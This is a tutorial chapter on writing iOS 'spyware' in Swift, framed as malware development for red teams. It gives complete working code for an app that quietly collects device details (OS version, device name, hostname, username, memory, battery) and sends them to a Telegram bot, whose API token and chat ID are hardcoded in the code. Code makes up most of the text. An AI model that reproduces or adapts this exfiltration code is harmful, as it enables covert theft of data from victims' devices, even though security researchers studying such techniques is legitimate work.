\newpage
\subsection{16. mobile malware development: iOS infostealer. Simple Swift example}

﷽

{width="80%"}       

First of all we need MacOS, you can use your MacBook or use QEMU, for me this is worked perfectly:    

{width="80%"}    

[https://github.com/quickemu-project/quickemu](https://github.com/quickemu-project/quickemu)     

Run it:    

```bash
quickemu --vm macos-sonoma.conf
```

{width="80%"}    

{width="80%"}    

{width="80%"}    

{width="80%"}    

{width="80%"}    

{width="80%"}    

And you can use all features, Xcode, iPhone Simulator (iOS 18.4 in my case):     

{width="80%"}    

{width="80%"}    

I will show you how adversaries can create spyware app. In general, spyware allows an attacker to remotely monitor and capture information from a target device. This can include:    

- system Information (e.g., OS version, device name, battery status, etc.)
- stored data (e.g., contacts, photos, documents, etc.)    
- activity tracking (e.g., browsing history, cookies, etc.)      

So, let's go to create simple malware: one common task for malware researchers is building spyware that can exfiltrate sensitive information in a manner that remains hidden from the victim.      

### practical example

This section discusses how to create a basic iOS spyware application in Swift, which collects system information and sends it to a Telegram Bot API using `URLSession`      

Your project's structure looks like there (`Hack`):     

{width="80%"}       

In our malware we need three main components:

- the UI - a simple app interface to trigger the spyware.    
- the data collection logic - code to gather system information from the iOS device.    
- data exfiltration - sending this collected data to a remote server, such as Telegram chat, using a Bot API.    

In SwiftUI, we can easily create a simple interface with a button that, when pressed, triggers the collection and sending of the system information:     

```swift
import SwiftUI

struct ContentView: View {
    @State private var message: String = "Meow-meow!"
    
    var body: some View {
        ZStack {
            Image("city")
                .resizable()
                .aspectRatio(contentMode: .fit)
                .frame(minWidth: 0, maxWidth: .infinity)
                .edgesIgnoringSafeArea(.all)

            VStack (alignment: .center) {
                Spacer()
                Text("Meow")
                    .font(.largeTitle)
                    .fontWeight(.light)
                Divider().background(Color .white).padding(.trailing, 128)

                Text(message)
                    .fontWeight(.light)// displays the message from HackSpyware
                Divider().background(Color .white).padding(.trailing, 128)
                
                Button(action: {
                    // when the button is pressed, call the 
                    // function of HackSpyware
                    HackSpyware.shared.botToken = "7725786727:AAEuylKfQgTg5RBMeXwyk9qKhcV5kULP_po"
                    HackSpyware.shared.chatId = "5547299598"
                    
                    HackSpyware.shared.sendSystemInfo()
                    
                    // update message text on completion
                    message = "Meow!"
                }) {
                    Text("meow")
                        .padding()
                        .background(Color.blue)
                        .foregroundColor(.white)
                        .cornerRadius(8)
                }
            }
            .foregroundColor(.white)
            .padding(.horizontal, 244)
            .padding(.bottom, 96)
        }
    }
}

struct ContentView_Previews: PreviewProvider {
    static var previews: some View {
        ContentView()
    }
}
```

As you can see, this simple interface includes a button that triggers the spyware to collect the system's information and send it to Telegram:      

{width="80%"}       

Then to gather system information like the iOS version, device name, battery level, and memory usage, we need to use the built-in `ProcessInfo` and `UIDevice` APIs:    

```swift
import Foundation
import UIKit

public class HackSpyware {
    public static let shared = HackSpyware(); private init() {}
    public var botToken: String = ""
    public var chatId: String = ""
    private var telegramApiUrl: String {
        return "https://api.telegram.org/bot\(botToken)/sendMessage"
    }

    // Collect system information
    private func collectSystemInfo() throws -> String {
        let device = UIDevice.current
        let processInfo = ProcessInfo.processInfo
        
        let systemName = processInfo.operatingSystemVersionString
        let hostName = processInfo.hostName
        let userName = NSUserName()
        let mem = processInfo.physicalMemory / (1024 * 1024 * 1024)
        let model = device.localizedModel
        let batteryLevel = device.batteryLevel
        let deviceName = device.name

        let systemInfo = """
        📱 Meow ♥️
        📱 System Info:
        📱 Version IOS: \(systemName)
        📱 Device name: \(deviceName)
        📱 Host Name: \(hostName)
        📱 User Name: \(userName)
        📱 Model: \(model)
        📱 Memory usage: \(mem) GB
        📱 Battery level: \(Int(batteryLevel * 100))%
        """
        return systemInfo
    }
    
    // Send collected system info
    public func sendSystemInfo(completion: (() -> Void)? = nil) {
        DispatchQueue.global(qos: .utility).async {
            let systemData: String
            do {
                systemData = try self.collectSystemInfo()
            } catch {
                systemData = "error collecting systeminfo: \(error.localizedDescription)"
            }
            
            self.sendMessageToTelegram(message: systemData, completion: completion)
        }
    }

    // Send message to Telegram without Alamofire
    private func sendMessageToTelegram(message: String, completion: (() -> Void)? = nil) {
        guard let url = URL(string: telegramApiUrl) else {
            print("invalid telegram API URL")
            completion?()
            return
        }
        
        var request = URLRequest(url: url)
        request.httpMethod = "POST"
        request.addValue("application/json", forHTTPHeaderField: "Content-Type")
        
        let jsonBody: [String: Any] = [
            "chat_id": chatId,
            "text": message
        ]
        
        do {
            let bodyData = try JSONSerialization.data(withJSONObject: jsonBody, options: [])
            request.httpBody = bodyData
        } catch {
            print("failed to serialize JSON: \(error.localizedDescription)")
            completion?()
            return
        }
        
        let task = URLSession.shared.dataTask(with: request) { data, response, error in
            if let error = error {
                print("error sending message: \(error.localizedDescription)")
            } else if let data = data, 
                      let responseString = String(data: data, encoding: .utf8) {
                print("telegram response: \(responseString)")
            } else {
                print("successfully sent message with no response data.")
            }
            completion?()
        }
        
        task.resume()
    }
}
```

As you can see, the logic is pretty simple: the `collectSystemInfo()` method gathers important system details, including: iOS version, device model and name, hostname, username, available memory and battery level.    

The `sendSystemInfo()` method sends this data to a Telegram bot. The bot's API is called via `sendMessageToTelegram()`, which uses `URLSession` to send a `JSON` request.    

### demo

Let's go to see everything in action. Build project:    

{width="80%"}       

{width="80%"}       

{width="80%"}       

{width="80%"}       

Then just click the button:     

{width="80%"}       

{width="80%"}       

As you can see, everything is worked perfectly, as expected =^..^=!    

This spyware app serves as a proof-of-concept for Red Team operations and penetration testers, allowing you to gather system information from a compromised iOS device and exfiltrate it securely via Telegram.     

[quickemu](https://github.com/quickemu-project/quickemu)     

